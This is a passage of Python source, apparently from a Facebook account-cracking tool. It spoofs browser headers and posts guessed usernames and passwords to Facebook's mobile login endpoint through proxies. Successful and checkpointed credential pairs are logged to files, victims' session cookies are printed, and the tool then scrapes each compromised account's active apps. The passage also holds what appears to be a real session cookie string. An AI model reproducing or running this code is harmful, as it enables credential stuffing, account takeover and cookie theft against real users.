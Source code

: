 	'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'accept-language': 'ar-EG,ar;q=0.9,en-US;q=0.8,en;q=0.7',
    'cache-control': 'max-age=0',
    # 'cookie': 'datr=zKAaZWMjinn44LAbBPSRMHpV; sb=zKAaZXv0JuI8lR9YdKw9XuZO; vpd=v1%3B720x393x2.75; locale=id_ID; wl_cbv=v2%3Bclient_version%3A2339%3Btimestamp%3A1698250473; m_pixel_ratio=3.0234789848327637; dpr=3.0234789848327637; fr=0awPXuJnjY401RfFJ.AWX5L9oeYcPaq56DSxJh2TLLvGM.BlGqDM.oe.AAA.0.0.BlPSPu.AWXCL4uH3J0; wd=393x851',
    'dpr': '2.75',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not)A;Brand";v="24", "Chromium";v="116"',
    'sec-ch-ua-full-version-list': '"Not)A;Brand";v="24.0.0.0", "Chromium";v="116.0.5845.240"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-model': '""',
    'sec-ch-ua-platform': '"Linux"',
    'sec-ch-ua-platform-version': '""',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'referer': 'https://p.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36',
}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False,proxies=proxs)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r{K}\n[nakretaua-CP]\n[✘] User : {idf}\n[✘] Pass : {pw}{N}')
                open('/sdcard/AKA-CPk.txt','a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                cp+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r{H}\n[ ➣✔SALAM_m-Api OK ZAMAN ✔💚 ]\n[✔] Account User💚 :{idf}\n[💚] Account Pass💚 :{pw}\n[💚] cookis🍪 :{kuki}\n{ua}{N}')
                open('/sdcard/AKA-Ok.txt','a').write(idf+' • '+pw+'\n')
                cek_NIK(kuki)
                break
                
            else:
                continue
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop+=1
#----------------------[ CEK-APLIKASI ]---------------------#
def cek_NIK(kuki):
	session = requests.Session()
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):